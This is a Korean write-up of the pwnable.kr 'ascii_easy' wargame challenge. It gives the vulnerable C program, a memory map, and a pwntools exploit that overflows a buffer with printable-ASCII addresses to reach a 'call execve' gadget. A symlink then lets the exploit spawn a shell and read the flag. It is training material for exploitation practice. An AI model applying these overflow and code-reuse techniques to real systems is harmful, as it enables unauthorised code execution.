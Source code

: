 # [pwnable.kr] ascii_easy writeup

#### [summary] call execve, symbolic link

```shell
We often need to make 'printable-ascii-only' exploit payload.  You wanna try?

hint : you don't necessarily have to jump at the beggining of a function. try to land anyware.


ssh ascii_easy@pwnable.kr -p2222 (pw:guest)
```

이틀동안 캐삽질해서 겨우 푼 문제다;;

입력에 필터 걸어놓는거 진짜 싫음

### code

```shell
#include <sys/mman.h>
#include <sys/stat.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
#include <fcntl.h>

#define BASE ((void*)0x5555e000)

int is_ascii(int c){
    if(c>=0x20 && c<=0x7f) return 1;
    return 0;
}

void vuln(char* p){
    char buf[20];
    strcpy(buf, p); // <= (누가봐도)vulnerable !!
}

void main(int argc, char* argv[]){

    if(argc!=2){
        printf("usage: ascii_easy [ascii input]\n");
        return;
    }

    size_t len_file;
    struct stat st;
    int fd = open("/home/ascii_easy/libc-2.15.so", O_RDONLY);
    if( fstat(fd,&st) < 0){
        printf("open error. tell admin!\n");
        return;
    }

    len_file = st.st_size;
    if (mmap(BASE, len_file, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE, fd, 0) != BASE){
        printf("mmap error!. tell admin\n");
        return;
    }

    int i;
    for(i=0; i<strlen(argv[1]); i++){
        if( !is_ascii(argv[1][i]) ){
            printf("you have non-ascii byte!\n");
            return;
        }
    }

    printf("triggering bug...\n");
    vuln(argv[1]);

}

```

libc를 부가적으로 제공하며 해당 libc는 `0x5555e000`에 올라간다. 특이사항으로는 실행권한뿐만아니라 쓰기권한까지 존재한다.

```shell
gdb-peda$ vmmap
Start      End        Perm	Name
0x08048000 0x08049000 r-xp	/home/ascii_easy/ascii_easy
0x08049000 0x0804a000 r--p	/home/ascii_easy/ascii_easy
0x0804a000 0x0804b000 rw-p	/home/ascii_easy/ascii_easy
0x0804b000 0x0806c000 rw-p	[heap]
0x5555e000 0x55702000 rwxp	/home/ascii_easy/libc-2.15.so   <========= critical!
0xf7e05000 0xf7e06000 rw-p	mapped
0xf7e06000 0xf7fb6000 r-xp	/lib/i386-linux-gnu/libc-2.23.so
0xf7fb6000 0xf7fb8000 r--p	/lib/i386-linux-gnu/libc-2.23.so
0xf7fb8000 0xf7fb9000 rw-p	/lib/i386-linux-gnu/libc-2.23.so
0xf7fb9000 0xf7fbc000 rw-p	mapped
0xf7fd3000 0xf7fd4000 rw-p	mapped
0xf7fd4000 0xf7fd7000 r--p	[vvar]
0xf7fd7000 0xf7fd9000 r-xp	[vdso]
0xf7fd9000 0xf7ffc000 r-xp	/lib/i386-linux-gnu/ld-2.23.so
0xf7ffc000 0xf7ffd000 r--p	/lib/i386-linux-gnu/ld-2.23.so
0xf7ffd000 0xf7ffe000 rw-p	/lib/i386-linux-gnu/ld-2.23.so
0xfffdd000 0xffffe000 rw-p	[stack]
```



#### 처음 생각한 아이디어

주어진 libc의 위치는 고정이기 때문에 결국 문제에서 의도하는 것은 저 위치의 ascii 주소를 갖는 함수를 이용하는 것이라고 생각했다. 그래서 `execve()`나 `system()`을 이용하려 찾아보았지만 해당 주소들에 ascii 범위를 벗어나는 값들이 있어서 다른 방법을 생각해보았다.

우선 가장 귀찮은 녀석인 `is_ascii()`를 우회하기 위해서 입력을 다시 받는 아이디어를 떠올렸다.

찾아보니 `gets()`의 주소가 모두 ascii 범위 내에 있어서 인자로 대충 주어진 libc 영역을 줘서 쉘코드를 쓴 뒤, 쉘코드로 return 하면 쉘을 딸 수 있다는 각이 섰는데....

각만 섰다... `gets()`를 실행하는 중간에 터지던데 아직도 왜 그런지 원인을 잘 모르겠다... ㅜ



암튼 그러다가 `call execve`를 이용하라는 힌트를 얻음...



### exploit

```python
#!/usr/bin/python
from pwn import *

# 실패 가젯 ㅠ
#gets = 0x555c3e30
#buf = 0x556d5555
call_execve = 0x5561676a
error = 0x556b7c56
null = 0x556f7640

_argv = 'A'*32
_argv += p32(call_execve)
_argv += p32(error)
_argv += p32(null)
_argv += p32(null)


r = process(['/home/ascii_easy/ascii_easy', _argv])

r.interactive()
```

`call execve()`를 이용했기 때문에, ret를 신경쓰지 않고 바로 인자를 주면 된다.

`execve()`에 인자로 줄 /bin/sh를 만드는 것이 큰 문제였는데, 방법을 잘 모르겠어서 그냥 이를 대체할 수 있는 프로그램을 만들기로 했다. 대충 __"error"__라는 문자열을 이용해서 심볼릭 링크로 실행시키기로 함.

```shell
ascii_easy@prowl:/tmp/charlie4$ ln -s /bin/sh error
ascii_easy@prowl:/tmp/charlie4$ export PATH=$PATH:/tmp/charlie4
ascii_easy@prowl:/tmp/charlie4$ error
$ exit

```



### result

```shell
ascii_easy@prowl:/tmp/charlie4$ python sol2_ascii.py 
[+] Starting local process '/home/ascii_easy/ascii_easy': pid 110832
[*] Switching to interactive mode
triggering bug...
$ id
uid=1040(ascii_easy) gid=1040(ascii_easy) egid=1041(ascii_easy_pwn) groups=1041(ascii_easy_pwn),1040(ascii_easy)
$ cat /home/ascii_easy/flag
damn you ascii armor... what a pain in the ass!! :(

```



### reflection

`execve()`에서 /bin/sh의 심볼릭 링크인 error를 첫번째 인자로 주는데에는 성공했으나, 두 번째, 세 번째 인자를 어떻게 주어야 할 지 모르겠어, 나름대로 짱구를 굴려서 시도해보았다.

저 놈의 `is_ascii()`떄문에 두 번째, 세 번째 인자에 모두 0을 줄 수가 없어서 어떻게 무시할 수 있는 방법이 없을까 싶었다. /bin/sh에 이상한 인자를 주면 제대로 실행이 되지 않는 것을 보고, 아래와 같이 그냥 shell을 실행시켜주는 함수이지만 인자를 대충 줘도 되는 프로그램을 만들어서 error로 만들었는데,

```c
#include <stdio.h>
int main(int argc, char* argv[]){
    execve("/bin/sh", NULL, NULL);
}
```

이러면 두 번째, 세 번째 인자에 이상한 값이 들어와도 괜찮을 줄 알았으나... 두 번째, 세 번째 인자에는 argv 배열 및 env 배열의 주소 값이 들어가는 걸 간과했다;;;

정상적인 주소 값이 아니기 때문에 일단 초반에 인자를 가져오는 과정에서 터졌다...

`gets()`가 안돼는 이유는 아직도 잘 모르겠지만, 요거는 이유를 찾아서 다행이다..